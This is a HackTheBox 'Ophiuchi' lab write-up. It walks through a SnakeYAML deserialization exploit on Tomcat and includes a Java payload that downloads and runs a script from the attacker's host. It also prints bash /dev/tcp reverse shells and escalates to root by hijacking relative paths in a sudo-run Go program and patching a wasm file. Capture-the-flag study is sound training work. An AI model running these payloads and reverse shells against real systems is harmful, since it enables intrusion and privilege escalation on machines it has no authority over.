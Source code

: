 # Hackthebox - Ophiuchi

First I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.168.125
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 8080 which is HTTP is open, so I open the webpage and got this.
![](webpage.png)

Next I started a gobuster to find directories.
![](gobuster.png)

I try clicking around the website and see that it is a YAML parser. I try putting in some stuff but always got a message saying the feature is disabled.                              
![](disabled.png)

I started searching about "YAML deserilization exploit" and got an article (https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858). I just try running the exploit blindly just to see if it works.
![](payload.png)

I setup a listener and got a hit back from the box.
![](curledhit.png)

So now I know the exploit works, but I still doesn't have command execution. The article aboves dives in more to how we can do a remote command execution through this exploit. We basically provide a java class file which contains our command. I want to test the exploit first so I do a simple curl command to my machine. Below is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
        Runtime.getRuntime().exec("curl 10.10.14.66:8888");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

I convert the java file to a class file.
![](convertjavaclass.png)

Setup a python server to host my class file.
![](python3server.png)

Send the YAML payload to the web server.                                                                                      
![](payload2.png)

I got a curl back from the box to my machine.
![](curled2.png)

So its confirmed that the command execution works. Now I created a reverse shell bash script and download it to the box and execute it with bash. Here is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("curl 10.10.14.66:8000/rev.sh -o /tmp/rev.sh");
			Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

I created the **rev.sh** bash script.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.66/7777 0>&1
```

Setup a listener, send the payload and got a shell as the tomcat user.
![](tomcatshell.png)

Next I try looking through the conf directory in tomcat's home directory and got a credentials for the user admin.
![](adminpass.png)

I try SSH to the box as admin with that password and got in.
![](userflag.png)

I try running **sudo -l** and the user admin can execute a file written in go.
![](sudo-l.png)

I look at the contents of the file and try to analyse what it does.
```bash
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)

func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

Its calling **deploy.sh** and **main.wasm** but isn't using absolute paths. Which means I can make the script call my files instead.

I go to **/dev/shm** and created **deploy.sh** file.
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.66/8888 0>&1'
```
The file will only execute the **deploy.sh** file if variable f is equal to 1. The variable f is taken from **main.wasm**, which is a web assembly file. I search around for how to work with a wasm file and found a tool (https://github.com/webassembly/wabt). The wasm file can be converted to web assembly text format which is more human readable.

So I send the **main.wasm** file to my box.
![](ncsendwasm.png)

Convert it into wat format.
![](convertwat.png)

Now I can see the contents.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

There is a function called info which is pulled by the **index.go** file. So I can just make the info function returns 1. So I edit the file with nano.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

I converted the wat file back to wasm format.
![](wattowasm.png)

curl the new wasm file
![](ls-la.png)

Execute the full sudo command.
![](runsudo.png)

And I got a shell as root.
![](rooted.png)
